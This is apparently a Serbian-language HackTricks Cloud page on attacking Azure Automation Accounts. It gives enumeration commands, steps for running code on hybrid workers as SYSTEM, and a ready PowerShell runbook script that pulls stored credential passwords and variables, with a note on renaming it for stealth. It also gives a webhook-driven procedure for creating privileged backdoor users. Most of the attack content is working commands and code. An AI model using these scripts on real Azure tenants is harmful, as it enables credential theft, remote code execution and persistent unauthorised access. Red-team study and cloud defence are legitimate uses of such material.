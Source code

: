 # Az - Automatizovani nalog

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Iz dokumentacije:](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation pruža uslugu automatizacije zasnovanu na oblaku, ažuriranja operativnog sistema i konfiguracije koja podržava dosledno upravljanje u okviru vašeg Azure i ne-Azure okruženja. Uključuje automatizaciju procesa, upravljanje konfiguracijom, upravljanje ažuriranjima, deljene mogućnosti i heterogene funkcije.

Ovo su kao "**zakazani zadaci**" u Azure-u koji će vam omogućiti izvršavanje stvari (akcija ili čak skripti) za **upravljanje**, proveru i konfiguraciju **Azure okruženja**.

### Run As nalog

Kada se koristi **Run as nalog**, kreira se Azure AD **aplikacija** sa samopotpisanim sertifikatom, kreira se **servisni princip** i dodeljuje se uloga **Contributor** za nalog u **trenutnoj pretplati** (mnogo privilegija).\
Microsoft preporučuje korišćenje **Managed Identity** za Automation Account.

{% hint style="warning" %}
Ovo će biti **uklonjeno 30. septembra 2023. godine i zamenjeno sa Managed Identities.**
{% endhint %}

## Runbooks & Jobs

**Runbooks** vam omogućavaju da izvršite proizvoljni PowerShell kod. To bi moglo biti **zloupotrebljeno od strane napadača** kako bi se ukrale dozvole **povezanog principala** (ako postoji).\
U **kodu** **Runbook-a** takođe možete pronaći **osetljive informacije** (kao što su akreditivi).

Ako možete **pročitati** **poslove**, uradite to jer **sadrže** izlaz iz izvršavanja (potencijalno **osetljive informacije**).

Idite na `Automation Accounts` --> `<Izaberite Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### Hybrid Worker

Runbook se može pokrenuti u **kontejneru unutar Azure-a** ili u **Hybrid Worker-u** (mašina van Azure-a).\
Agent za Log Analytics se implementira na virtuelnoj mašini kako bi je registrovao kao hybrid worker.\
Poslovi hybrid worker-a se izvršavaju kao **SYSTEM** na Windows-u i kao **nxautomation** nalog na Linux-u.\
Svaki Hybrid Worker je registrovan u **Hybrid Worker Group**.

Dakle, ako možete da izaberete da pokrenete **Runbook** u **Windows Hybrid Worker-u**, izvršićete **proizvoljne komande** unutar spoljne mašine kao **System** (lepa tehnika pivota).

## Kompromitacija State Configuration (SC)

[Iz dokumentacije:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **State Configuration** je Azure usluga za upravljanje konfiguracijom koja vam omogućava pisanje, upravljanje i kompajliranje PowerShell Desired State Configuration (DSC) [konfiguracija](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) za čvorove u bilo kojem oblaku ili lokalnom datacentru. Usluga takođe uvozi [DSC resurse](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources) i dodeljuje konfiguracije ciljnim čvorovima, sve to u oblaku. Do Azure Automation State Configuration možete pristupiti u Azure portalu tako što ćete izabrati **State configuration (DSC)** pod **Configuration Management**.

U ovim konfiguracijama mogu se pronaći **osetljive informacije**.

### RCE

Moguće je zloupotrebiti SC da se pokrenu proizvoljni skriptovi na upravljanim mašinama.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Enumeracija

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Kreiranje Runbook-a

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Izvlačenje podataka o pristupu i promenljivih definisanih u Automation Account-u korišćenjem Run Book-a

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Možete uraditi istu stvar modifikujući postojeći Run Book, i to putem web konzole.
{% endhint %}

### Koraci za podešavanje automatizovanog kreiranja korisnika sa visokim privilegijama

#### 1. Inicijalizacija Automation Account-a
- **Potrebna akcija:** Kreirajte novi Automation Account.
- **Specifično podešavanje:** Proverite da je omogućeno "Create Azure Run As account".

#### 2. Uvoz i podešavanje Runbook-a
- **Izvor:** Preuzmite primer runbook-a sa [MicroBurst GitHub repozitorijuma](https://github.com/NetSPI/MicroBurst).
- **Potrebne akcije:**
- Uvezite runbook u Automation Account.
- Objavite runbook kako bi bio izvršiv.
- Povežite webhook sa runbook-om, omogućavajući spoljne okidače.

#### 3. Konfiguracija AzureAD modula
- **Potrebna akcija:** Dodajte AzureAD modul u Automation Account.
- **Dodatni korak:** Proverite da su svi Azure Automation moduli ažurirani na najnovije verzije.

#### 4. Dodela dozvola
- **Uloge za dodelu:**
- User Administrator
- Subscription Owner
- **Cilj:** Dodelite ove uloge Automation Account-u radi neophodnih privilegija.

#### 5. Svest o mogućem gubitku pristupa
- **Napomena:** Imajte na umu da konfigurisanje ovakve automatizacije može dovesti do gubitka kontrole nad pretplatom.

#### 6. Pokretanje kreiranja korisnika
- Pokrenite webhook kako biste kreirali novog korisnika slanjem POST zahteva.
- Koristite pruženi PowerShell skript, obezbeđujući da zamenite `$uri` sa stvarnom URL adresom webhook-a i ažurirajte `$AccountInfo` sa željenim korisničkim imenom i lozinkom.
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## Reference

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
